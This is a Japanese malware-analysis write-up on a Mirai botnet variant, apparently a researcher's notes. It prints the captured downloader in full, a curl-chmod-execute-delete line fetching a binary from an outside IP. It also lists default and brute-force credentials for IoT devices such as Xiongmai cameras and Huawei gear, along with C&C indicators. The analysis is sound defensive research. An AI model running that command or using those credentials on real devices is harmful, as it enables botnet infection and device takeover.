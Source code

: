 ```sh
curl http[:]//23.146[.]184.21/bins/systemd.x86_64; chmod 777 systemd.x86_64; ./systemd.x86_64 systemctlx86_64

rm $0

```


## バイナリファイル
- ダウンローダーによってダウンロードされたもの

VirusTotalでは、アンチマルウェアソフトによって、Miraiの亜種であると判定されている
- https://www.virustotal.com/gui/file/c13a54474e5d2361a52e3ec958d5e067d2502ac2ab31098dfce99a3e1c0e34a2

![](https://i.imgur.com/RCYMF16.png)


### 表層解析
- systemd.armファイル
	- ネットワーク機能
		- HTTP通信: `POST /cdn-cgi/` (CDN偽装)
		- UPnP/SSDP探索機能
		- 豊富なネットワークライブラリ関数
	- 認証情報（ブルートフォース用）
		- デフォルト認証情報を狙ったもの: admin, root, user, guest,...
		- デフォルト認証情報に2024、24を末尾につけたもの: Passw0rd2024, Admin2024!, Welcome2024,...
		- デバイス固有: xc3511, admin@9000,...

デバイス固有の認証情報とは
- xc3511
	- Xiongmai製の防犯カメラのデフォルト認証情報
	- root : xc3511
	- https://www.itmedia.co.jp/enterprise/articles/1610/25/news059.html
- admin@9000
	- Huweiネットワーク製品
	- https://info.support.huawei.com/hedex/api/pages/EDOC1000053358/YEF0907R/25/resources/en-us_topic_0000001990690949.html


C&C通信
- C&Cサーバー: 209.141.32.42
- Shodanではなかったので、FoFaを使用
	- https://en.fofa.info/result?qbase64=MjA5LjE0MS4zMi40Mg%3D%3D

Mirai亜種に含まれると考えられる典型的な文字列の一部が確認できる
```
Self Rep Fucking NeTiS and Thisity 0n Ur FuCkInG FoReHeAd We BiG L33T HaxErS
```
- https://www.radware.com/security/ddos-threats-attacks/threat-advisories-attack-reports/hoaxcalls-evolution/
- https://isc.sans.edu/diary/26638
- https://cujo.com/blog/mirai-gafgyt-with-new-ddos-modules-discovered/
